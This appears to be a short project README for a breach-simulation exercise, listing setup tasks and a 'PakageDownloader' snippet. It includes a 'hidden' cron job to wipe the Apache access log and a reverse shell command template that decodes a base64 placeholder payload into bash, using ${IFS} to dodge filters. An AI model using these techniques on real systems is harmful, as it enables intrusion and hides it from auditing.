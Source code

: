 # BAU-project
## TODO (Zeyad)
1. (Hidden) Cron job to clean /var/log/apache2/access.log
2. SSH password auhentication
3. SSH keys for users
4. Add omar webserver files
5. Finally (Test everything)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
